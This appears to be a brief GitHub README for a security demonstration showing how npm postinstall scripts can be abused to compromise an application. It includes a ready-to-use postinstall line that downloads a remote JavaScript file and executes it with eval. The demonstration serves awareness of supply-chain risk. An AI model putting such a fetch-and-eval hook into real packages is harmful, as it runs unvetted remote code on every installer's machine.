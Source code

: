 # King-sikkerhet-demo-extract

This is intended to be used as a demo script to display how a malicious actor might take advantage of postinstall scripts to compromise an application.

# Notes:


Retrieval link:
`"postinstall": "node -e \"fetch('https://raw.githubusercontent.com/EnturWilhelm/king-sikkerhet-demo-extract/refs/heads/main/dont-mind-me.js').then(res => res.text()).then(text => eval(text));\""`